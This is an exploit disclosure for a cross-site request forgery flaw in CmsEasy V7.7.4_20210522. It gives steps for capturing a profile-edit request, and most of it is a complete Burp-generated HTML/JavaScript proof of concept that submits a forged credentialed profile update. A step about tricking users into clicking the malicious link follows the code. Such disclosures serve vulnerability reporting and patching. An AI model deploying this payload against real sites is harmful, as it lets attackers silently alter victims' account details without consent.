






## Information

```c
Exploit Title:CmsEasy.V7.7.4_20210522-Cross-site request forgery(CSRF)
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.cmseasy.cn/
Affect Version:V7.7.4_20210522
Description:There is a CSRF vulnerability in CmsEasy.V7.7.4_20210522, where attackers can construct a malicious link to induce any user to click and change their personal information
```

## How to Exploit

Step 1：Edit personal information after logging into the system



Step 2:Then edit the user information, submit it, and capture the package with burpsuite



Step 3：use burpsuit to generate CSRF POC



```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/192.168.174.1\/index.php?case=user&act=edit&table=user&site=default&dfile=&userid=2", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------26756953524144081873372244344");
        xhr.withCredentials = true;
        var body = "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"username\"\r\n" + 
          "\r\n" + 
          "test1\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"headimage\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"file_headimage\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"nickname\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"question\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"answer\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"qq\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"e_mail\"\r\n" + 
          "\r\n" + 
          "Al1ex@163.com\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"tel\"\r\n" + 
          "\r\n" + 
          "17792936458\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"address\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"intro\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "\xe6\x8f\x90\xe4\xba\xa4\r\n" + 
          "-----------------------------26756953524144081873372244344--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

Step 4:Drop the packet, and then refresh the user's personal page to ensure that the information has not changed



Step 5：Cheat users to visit and click malicious links



Step 6：Refresh the user's personal page again and find that the information has changed



## Reference

https://www.cmseasy.cn/


